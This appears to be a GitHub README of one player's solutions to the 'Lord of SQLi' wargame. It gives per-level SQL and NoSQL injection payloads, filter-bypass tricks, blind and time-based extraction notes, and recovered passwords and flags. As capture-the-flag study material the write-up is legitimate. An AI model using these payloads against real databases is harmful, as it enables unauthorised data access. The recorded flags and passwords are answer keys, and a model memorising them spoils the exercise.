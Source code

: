 # lord-of-sqli

#1 GREMLIN
pw='or'1'='1
%27%20or%20%271%27=%271%27%20--%20

Some SQL parsers might not interpret -- if there is no space after.

#2 COBOLT
id=admin%27%20--%20

#3 GOBLIN
%27, &apos, &#39, \u0027, char(39) doesn't work.
bypassing quote filter doesn't work -> have to think some other way to query admin.

no=2%20or%20no=2

#4 ORC
pw=1' or id='admin'-- doesn't work.
It is converted to pw=1\' or id=\'admin\'-- by addslashes function.
It was not possible to find a way to bypass addslashes function.

1' or id='admin' and length(pw)=8 -- '
I found the pw length. It is possible to bruteforce 8 chars.
REL orc.py, pw=095a9852

#5 WOLFMAN
Can't use whitespace.
tab(%09) works.
Also, LF(%0a), CR(%0d), /**/  works.

1%27%09or%09id=%27admin%27%09--%09

#6 DARKELF
OR can be used as ||, AND can be used as &&
However, && should be inputed as URL encoding form(%26).
' || id='admin

#7 ORGE
Combination of #4 and #6.
REL orge.py, pw=7b751aec

#8 TROLL
Trapped in bypassing single quote filter, but never worked. (cost 2+ Hours..)
It was quite simple quiz, that just bypass admin string filter.
ad\min, ADmin, ... 

#9
same.
ad\min works great.

#10
easiest quiz.
' or id='admin' -- 

#11 
substr and = are not allowed.
I was able to use 'LIKE'.
However, it has one problem. 
Like are not case sensitive, so that my codes always return capitalized word.
We can use mid() instead of substr() :)

#12
1' and no=1 or no LIKE "2"
We can find the no of admin.
using same solution of #11, easily solved.

#13
I did find the way in a second, using STRCMP and mid
but, I kept 'no' variable empty.
1\n||\nSTRCMP(id,"admin")\nIS\nFALSE\n&&\nSTRCMP(mid(pw,{i},1),char({j}))\nIS\nFALSE
must give a parameter to equal variables.
REL bugbear.py, pw=52dc3991
* Capital letter, lower letter distinguishability check


#14
%0b %0c -> space!
REL giant.py

#15
cutie quiz.
use % and _ to guess the pw.
pw=%d__

#16
\&pw=or 1=1 -- 
using escape function!

#17
"&pw=%20--%201=1%20ro
using escape function!

#18
pw=')=0;%00
We can use double equation on this problem.
pw=''=0  is interpreted as False=0 so it is true.
and ;%00 is kind of delimiting sql query.

#19
It may not be ascii.
length(substr(pw,1,1))=4
It was an unicode, REL xavis.py
pw=우왕굳

* There was some brilliant approach.
(select @a:=pw where id='admin') union select @a

#20
quite annoying problem.
Had to escape comment.
The only wayt to escape comment is to end line.

and pw=' and pw='' or id='admin' -- '
so the query would be interpreted like,
select id from prob_dragon where id='guest'# and pw='
and pw='' or id='admin'

#21
filtering sleep was a big HINT!!!
I need to conduct Error Based Blind SQLI.
length of password was 32.
REL iron_golem.py, pw=06b5a6c16e8830475f983cc3a825ee9a

#22
error based blind sqli using (select 1 union select )

#23, #24
order by can get multiple arguments
we can use "order by email='**'" as if phrase.

#25
\&pw=%20union%20select%200x5c,0x756e696f6e2073656c65637420636861722839372c3130302c3130392c3130352c3131302923%23

prob_green_dragon table was empty.
Need to put data using union select. TWICE.
But, maybe due to interpreting method, we need to use ascii code when inputing twice.
and ofcourse we can bypass single quote filtering by using CHAR()

#26
SELECT id FROM prob_red_dragon WHERE id=''||no>#' and no=\n1000
can bypass is_numeric
no can be guessed by binary search. REL red_dragon.py

#27
REL blue_dragon.py

#28
REL frankenstein.py

#29
At first, I thought inserting 
no, ip, (select email from prob_phantom where no=1) 
works. But it didn't. I had to rename the table like "from prob_phantom as p"
and my vpn keep changing my ip so, i have to manually throw the request.
It is not neccessary to use "as" it's possible to use "from prob_phantom tmp"

#30
using quine code.

a' union select replace(replace('a" union select replace(replace("$",char(34),char(39)),char(36),"$") as pw%23',char(34),char(39)),char(36),'a" union select replace(replace("$",char(34),char(39)),char(36),"$") as pw%23') as pw%23

#31
using information_schema.processlist
1' union select substr(info,locate('1',info),length(info)-locate('1',info)) from information_schema.processlist#
REL rubiya's blog.

#32

#33
-1'<@=1 or {a 1}=1 or '

#34
-1'<@=1 or id like 'ad%' or '

#35
-1'<@=1 or length(pw)=8 or '

#36
-1'<@=1 union/**/select 'first', 'second'#

#37
' or id='admin

#38
admin\' or id=char(97,100,109,105,110)--%20

#39
1' or substr(pw,2,1)='4' -- '
REL banshee.py

#40
' union select name from sqlite_master -- '
flag_70c81d99
' union select * from flag_70c81d99 -- '
FLAG{ea5d3bbdcc4aec9abe4a6a9f66eaaa13}

#41
admin' and pw='' or id='admin' and pw=1 -- '
select id from prob_nessie where id='admin' and 1=(case when len(pw)=16 then 's' end) -- ' and pw=''
115d8d1a422f1f3e

#42
admin' and pw='' or id='admin' and pw=1 -- '
bae18ae1221fafd3

#43
' if((select len(pw) from prob_yeti where id='admin')=16) waitfor delay '0:0:3' -- '
REL yeti.py

#44
using [] works!!
select[pw]from[prob_mummy]where[id]='admin'and[pw]like'________________'
REL mummy.py

#45
1' union select name from sysobjects where xtype='U' -- '
: flag_34d1a7f3bb77c91e
1' union select id from sysobjects where name='flag_34d1a7f3bb77c91e' -- '
: 597577167
1' union select name from syscolumns where id=597577167 -- '
: wrongflag <-------------- fucking trap
1' union select name from syscolumns where id=597577167 and name <>'wrongflag' -- '
: there was no output!!! may be flag is on other table....
1' union select name from sysobjects where name<>'flag_34d1a7f3bb77c91e' and xtype='U' -- '
: flag_a98fbc3d1d46a81e
1' union select id from sysobjects where name='flag_a98fbc3d1d46a81e' -- '
: 613577224
1' union select name from syscolumns where id=613577224 -- '
: flag
1' union select flag from flag_a98fbc3d1d46a81e -- '
: FLAG{a0819fc56beae985bac7d175c974cd27}

GOOD reference about mssql : https://whatdocumentary.tistory.com/8

#46
id=admin&pw[$ne]=null

#47
id=admin&pw[$regex]=^.{8}$

REL siren.py

#48
' || obj.id=='admin'&&obj.pw.length==8 ? not : '1';}"}
